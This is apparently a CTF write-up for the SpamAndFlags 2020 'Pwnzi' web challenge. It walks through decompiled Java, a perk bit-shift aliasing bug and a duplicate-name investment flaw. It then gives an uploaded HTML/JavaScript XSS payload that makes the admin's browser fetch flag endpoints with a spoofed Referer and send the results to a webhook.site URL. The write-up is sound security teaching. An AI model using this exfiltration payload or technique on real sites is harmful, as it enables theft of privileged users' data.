



# SpamAndFlags 2020 - Pwnzi

## Challenge

Do you want to make $1500 in an hour at the comfort of your home? Come join my online network! I am recruiting bright and ambitious people just like you!

<https://pwnzi.ctf.spamandhex.com/>

155+119+129 points

## Solution

### Part 1

The source was available at `/pwnzi.jar`, the endpoint was placed as an HTML comment in each page.

```java
@GetMapping({ "/pwnzi.jar" })
public ResponseEntity<Resource> getBinaries() {
    try {
        final java.io.File file = new ApplicationHome((Class)PwnziApp.class).getSource();
        final InputStreamResource resource = new InputStreamResource((InputStream)new FileInputStream(file));
        return (ResponseEntity<Resource>)ResponseEntity.ok().contentLength(file.length()).contentType(MediaType.APPLICATION_OCTET_STREAM).body((Object)resource);
    }
    catch (Throwable $ex) {
        throw $ex;
    }
}
```

There was a `/flag1` endpoint.

```java
@GetMapping(path = { "/flag1" })
public ResponseEntity<String> flag1(final HttpServletRequest request, final HttpSession session) {
    this.checkRefererIsProfilePage(request);
    final User user = this.currentUser(session);
    final String t = user.hasPerk(Perks.FLAG) ? this.config.getFlag1() : "need some perks";
    return (ResponseEntity<String>)ResponseEntity.ok((Object)t);
}
```

So to get `/flag1` we need the `FLAG` perk.

To claim the `FLAG` perk we need to go through these checks:

```java
@PostMapping({ "/claim-perk" })
@Transactional
public ResponseEntity<String> claimPerk(@RequestParam("perk") final int perk, final HttpSession session) {
    if (perk < 0) {
        throw new PwnziException("value error");
    }
    final User user = this.currentUser(session);
    if (user.hasPerk(perk)) {
        throw new PwnziException("perk already credited");
    }
    if (perk == Perks.FLAG) {
        throw new PwnziException("sry, you have to work a bit harder for the flag");
    }
    if (this.calculateExpectedInterest(user) < this.requiredInterestForPerk(perk)) {
        throw new PwnziException("need more expected interest for this perk");
    }
    user.addPerk(perk);
    return (ResponseEntity<String>)ResponseEntity.ok((Object)"perk credited");
}
```

So the perk value cannot be `14` `( = Perks.FLAG)` in the request parameter and the calculated interest must reach a specified limit. 

Take a closer look at perk handling:

```java
public boolean hasPerk(final int perk) {
    return (this.perks & 1 << perk) != 0x0;
}

public void addPerk(final int perk) {
    this.perks |= (short)(1 << perk);
}
```

Due to the bit shifting, all `perk=14+32k, where k=0,1,2...` value cause the same result.

Let's look at the interest calculating method too:

```java
private double requiredInterestForPerk(final int perk) {
    return perk * (double)this.config.getMinDeposit();
}
```

```java
private double calculateExpectedInterest(final User user) {
    return this.stream((Collection<Object>)user.getInvestments()).mapToDouble((ToDoubleFunction<? super Object>)this::calculateExpectedInterest).sum();
}

private double calculateExpectedInterest(final Investment investment) {
    final double subInterests = this.stream((Collection<Object>)investment.getChildren()).mapToDouble((ToDoubleFunction<? super Object>)this::calculateExpectedInterest).sum();
    return (investment.getDeposit() + subInterests) * this.config.getInterestRate();
}
```

We can see that if we increase a perk value, the interest limit will increase too. The minimum appropriate perk value we need is `46` `( = 14+32)`, so the minimum limit what we need to reach is `46*100000=4600000`.

Let's try to find a problem in the investments logic.

```java
@PostMapping({ "/myinvestments" })
    @Transactional
    public ResponseEntity<String> makeInvestment(@RequestBody final MakeInvestmentRq rq, final HttpSession session) {
        String name = rq.getName();
        if (name == null) {
            name = UUID.randomUUID().toString().substring(0, 8);
        }
        final int deposit = Optional.ofNullable(rq.getDeposit()).orElse(this.config.getMinDeposit());
        if (deposit < this.config.getMinDeposit()) {
            throw new PwnziException(invokedynamic(makeConcatWithConstants:(I)Ljava/lang/String;, this.config.getMinDeposit()));
        }
        final User user = this.currentUser(session);
        if (user.getBalance() < deposit) {
            throw new PwnziException("not enough cash");
        }
        final Investment parent = this.investments.findByOwnerAndName(user, rq.getParentName()).orElse(null);
        final Investment newInvestment = new Investment().setOwner(user).setName(name).setDeposit(deposit);
        user.setBalance(user.getBalance() - deposit);
        this.investments.save((Object)newInvestment);
        if (parent != null) {
            parent.getChildren().add(newInvestment);
        }
        else {
            user.getInvestments().add(newInvestment);
        }
        return (ResponseEntity<String>)ResponseEntity.ok((Object)"ok");
    }
```

The parent investment of an investment were only tracked by just their name.

```java
final Investment parent = this.investments.findByOwnerAndName(user, rq.getParentName()).orElse(null);
```

If we create multiple investments with the same name, then add a new investment as a child to an existing investment, in the end, all investments with the same name will get a child, but we only lost the price of one investment. Basically we can buy one investment and get more than one.

We can achieve `4600000` expected interest with the following investments matrix:



Finally we have to change the payload (from `perk=14` to `perk=46`) of the `/claim-perk` POST request. And after a page reloads we successfully get the flag:



The flag is `SaF{no_obfuscation_is_like_giving_sauce}`.

### Part 2 and Part 3

If we analyze the source code, we can find two interesting endpoints: `/flag2` and `/flag3`.

```java
@GetMapping(path = { "/flag2" })
public ResponseEntity<String> flag2(final HttpServletRequest request, final HttpSession session) {
    this.checkRefererIsProfilePage(request);
    final User user = this.currentUser(session);
    final String t = this.isAdmin(user) ? this.config.getFlag2() : "only admin can see this";
    return (ResponseEntity<String>)ResponseEntity.ok((Object)t);
}

@GetMapping(path = { "/flag3" })
public ResponseEntity<String> flag3(final HttpServletRequest request, final HttpSession session) {
    this.checkRefererIsProfilePage(request);
    final User user = this.currentUser(session);
    final String t = this.isAdmin(user) ? this.config.getFlag3() : "only admin can see this";
    return (ResponseEntity<String>)ResponseEntity.ok((Object)t);
}
```

On the server-side there is not difference between the endpoints:
 - The `Referer` header must be `https://pwnzi.ctf.spamandhex.com/profile.html`
 - The currently logged in user must be admin

```java
private void checkRefererIsProfilePage(final HttpServletRequest request) {
    final String referer = request.getHeader("Referer");
    final String expected = invokedynamic(makeConcatWithConstants:(Ljava/lang/String;)Ljava/lang/String;, this.config.getOrigin());
    if (!Objects.equals(referer, expected)) {
        throw new PwnziException(invokedynamic(makeConcatWithConstants:(Ljava/lang/String;Ljava/lang/String;)Ljava/lang/String;, expected, referer));
    }
}
```

From the client-side the only difference between the to endpoints was that `/flag2` was automatically queried in the `/profile.html` page, but `/flag3` was not, but for the final solution, this was not important.

Using the investment hack from the previous solution, we can easily "buy" the perk to upload any content.

The uploaded files can be viewed at `/files-<guid>-<filename>`, e.g.: `/files-10023f9f-d88d-4812-a98a-47d63e02c3bf-solution.html`

If we upload an HTML+JavaScript file and load the file, the content is rendered and executed.

There is one piece missing. There is a reporting functionality at `/report/new`. We can upload any URL and the `admin` user will visit it (with a headless Chrome).

The attack scenario is clear (basically and XSS).
1. Upload an HTML file with a JavaScript code which queries `/flag2` and `/flag3` with the correct `Referer` header
2. The code sends the results to `webhook.site` for example
3. Report the URL of the uploaded file to admin
4. Wait for the flags to arrive

The JavaScript code to get the flags and send it to us was the following:

```html
<html>
<head>
<title></title>
<script>
fetch("https://pwnzi.ctf.spamandhex.com/flag2", {referrer: "https://pwnzi.ctf.spamandhex.com/profile.html", referrerPolicy: "unsafe-url"}).then(response=>response.text())
    .then(function(response) { console.log(response); httpGet("https://webhook.site/c8c1a19e-5c12-46a1-be74-6d772d881d0f?"+encodeURIComponent(response)) });
</script>
</head>
<body>
<h1>Hello, World!</h1>
</body>
</html>
```

Flag 2 arrived successfully: `SaF{service_workers_are_useless_they_say}`



Flag 3 was a bit problematic because it contained spaces instead of underscores, but base64 encoding it or sending the ASCII codes was enough.

Flag 3 was: `SaF{I never lose, I either win or I learn}`


## Other write-ups

- <https://ctftime.org/task/11532>
- <https://ctftime.org/task/11533>
